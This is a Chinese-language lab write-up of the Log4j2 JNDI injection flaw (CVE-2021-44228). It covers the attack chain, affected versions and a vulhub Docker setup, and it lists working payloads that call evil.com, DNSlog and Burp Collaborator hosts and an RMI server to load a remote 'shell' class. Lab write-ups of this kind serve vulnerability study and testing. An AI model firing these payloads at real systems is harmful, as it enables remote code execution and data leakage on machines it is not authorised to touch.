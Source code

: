# CVE-2021-44228

### 漏洞描述： <a href="#tid-tqkxqs" id="tid-tqkxqs"></a>

Apache Log4j2 是一个基于 Java 的日志记录工具， 是对 Log4j 的升级，它比其前身 Log4j 1.x 提供了显着改进，并提供了 Logback 中可用的许多改进，同时修复了 Logback 架构中的一些固有问题。该日志框架被大量用于业务系统开发，用来记录日志信息。

Log4j 的 JNDI 支持并没有限制可以解析的名称。一些协议像rmi:和ldap:是不安全的或者可以允许远程代码执行。攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

### 影响版本： <a href="#tid-f74r4e" id="tid-f74r4e"></a>

Apache Log4j2 2.0.0 - 2.15.0-rc1版本

### 漏洞分析 <a href="#tid-3cpg8c" id="tid-3cpg8c"></a>

```bash
hello?payload=111

jndi注入:(搜索资源服务)		# 前两个为验证，第三个为利用
payload=${jndi:ldap://xxxx.dnslog.cn}
payload=${jndi:ldap://${sys:java.version}.xxxx.dnslog.cn}
payload=${jndi:rmi://192.168.66.128:1099/shell}
```

1. 当用户通过get或者post提交输入信息时，应用程序中的“log4j2"组件会将信息记录到日志中
2. 假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/shell}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/shell
3. 解析到ldap，就会去192.168.96.1:1099的ldap服务找名为shell的资源，找到shell之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现shell是一个.class文件，就会去执行里面的代码，从而实现注入
4. 攻击者就可以通过shell实现任意的命令执行，造成严重危害

### 环境搭建：

下载地址：

{% embed url="https://github.com/vulhub/vulhub" %}

下载好以后cd到对应的目录执行以下命令

{% code lineNumbers="true" %}
```
docker-compose up -d
```
{% endcode %}

### 漏洞验证：

我这里使用Burp自带的dnslog平台，构造好payload

```
${jndi:ldap://3jnoo8is8nxggcwa8zpeaesxkoqfe62v.oastify.com} HTTP/1.1
```

发送请求包
